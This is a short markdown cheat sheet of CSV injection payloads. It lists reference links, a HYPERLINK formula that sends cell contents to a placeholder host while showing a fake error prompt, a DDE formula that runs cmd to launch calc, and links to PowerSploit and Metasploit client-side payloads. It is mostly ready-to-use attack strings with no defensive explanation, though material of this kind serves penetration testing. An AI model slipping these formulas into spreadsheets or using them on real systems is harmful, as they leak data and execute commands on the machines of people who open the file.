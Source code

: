 ## CSV Injection
Reference
```
https://www.contextis.com/en/blog/comma-separated-vulnerabilities
https://blog.zsec.uk/csvhub/
```
Data Exfiltration
```
=HYPERLINK("http://host?leak="&A1&A2,"Error: please click for further information")
```
Client Side RCE ( Trust Relationships )
```
=cmd|' /C calc'!A0
```
Powersploit and Metasploit Client Side Payloads
```
https://github.com/PowerShellMafia/PowerSploit
https://www.offensive-security.com/metasploit-unleashed/client-side-exploits/
```
